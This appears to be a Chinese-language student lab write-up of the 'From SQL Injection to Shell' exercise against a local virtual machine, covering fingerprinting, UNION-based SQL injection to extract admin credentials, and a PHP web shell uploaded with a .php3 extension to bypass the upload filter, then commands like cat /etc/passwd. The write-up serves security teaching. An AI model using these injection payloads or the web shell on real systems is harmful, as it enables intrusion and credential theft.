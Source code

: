 # 翻转课堂三-从SQL注入到Shell #

## 介绍 ##

攻击分为三步：
- Fingerprinting：收集有关Web应用程序和使用中的技术的信息
- Detection and exploitation of SQL injection：SQL注入工作原理以及利用它们来检索信息
- Access to the administration pages and code execution：访问操作系统和运行命令的最后一步

## 环境配置 ##

- 目标服务器：下载镜像并转入虚拟机

![](img/2.PNG)

- 攻击者主机：

![](img/attacker.PNG)

  - 设置攻击者浏览器：
  
![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/attackerBrowser.PNG)
  
  - 打开 burpsuite 监听所有端口
  
  ![](img/burpsuiteALL.PNG)

  - 可以访问目标服务器
 
  ![](img/ping.PNG)


## 实验过程 ##

### Fingerprinting ###
#### Inspecting HTTP headers ####
- HTTP请求，可获得服务器信息及PHP版本信息

  - telnet

![](img/telnet.PNG)

  - 攻击者访问服务器，并用burpsuite查看信息

![](img/burpsuiteHTTP.PNG)

- HTTPS请求

   - 请求失败，说明应用程序没有运行在443端口

![](img/https.PNG)

#### Using a directory Buster ####

使用wfuzz检测远程文件与文件夹

![](img/wfuzz.PNG)

### Detection and exploitation of SQL injection ###

#### Detection of SQL injection SQL注入检测 ####

##### 基于整数的检测 #####

1. 访问http://10.0.2.15/cat.php?id=1

![](img/id1.PNG)

  - 与输入http://10.0.2.15/cat.php?id=2-1 相同。则可能存在SQL注入
  
![](img/id2-1.PNG)


2. 如果访问http://10.0.2.15/cat.php?id=1' (多打一个单引号)，则会收到错误提示

![](img/id11.PNG)

##### 基于字符串的检测 #####

- 奇数个 **'** 会导致语法错误，所以使用偶数个'来测试
- 使用 **--** 注释掉查询的结尾
- 使用**and '1'='1**（不改变查询语句的语义）和**and '1'='0**（改变查询语句的语义），对比发现漏洞

#### SQL注入的开发 ####
##### 利用UNION关键字进行SQL注入 #####

- 访问http://10.0.2.15/cat.php?id=1 union select 1  收到错误提示

![](img/union1.PNG)

- 反复测试，直至访问http://10.0.2.15/cat.php?id=1 union select 1,2,3,4 时得到正确页面，可知列的正确数量

![](img/union1234.PNG)

- 也可以用order by猜测列的数量。当输入列号大于正确列数时，报错

![](img/orderby.PNG)

##### 检索信息 #####

- 数据库版本信息

![](img/version.PNG)

- 当前用户信息

![](img/user.PNG)

- 数据库名

![](img/database.PNG)

- 获取数据库所有表名

![](img/tables.PNG)

- 获取数据库所有列名

![](img/columns.PNG)

- 获取表与列的对应关系

![](img/tablecolunm.PNG)

- 通过上图可知还存在用户名与密码字段，查询可得

![](img/loginpass.png)
 
 
### 访问管理页面和代码执行 ###
- 将得到的密码进行解密，可得密码为 P4ssw0rd

![](img/pswd.PNG)

- 根据得到的用户名和密码访问管理页面

![](img/login.PNG)

   - 登陆成功
   
   ![](img/loginsucc.PNG)

- 植入webshell

   - 找到上图中的文件上传按钮
   - 上传一个webshell.php文件，内容为
    > <?php
    >       system($_GET['cmd']);
    >     ?>
   - 当后缀为php时，被页面拒绝（该应用程序阻止文件扩展名为.php上传,使用php3为后缀名绕过.php的过滤)
   
   ![](img/file.PNG)
   
   - 改为php3的后缀名后，上传成功
   
   ![](img/filesucc.PNG)

- 访问植入的php文件

![](img/php.PNG)

- 查看审查元素

![](img/info.PNG)

- 获取页面大量信息

![](img/uname.PNG)

![](img/lotsinfo.PNG)

    - 如通过ls得到当前目录或上级目录信息
    - 通过cat /etc/passwd得到系统用户列表
    - 通过cat /etc/hosts等指令可以查看主机信息，更改网络配置，甚至重启系统

- 实验结束
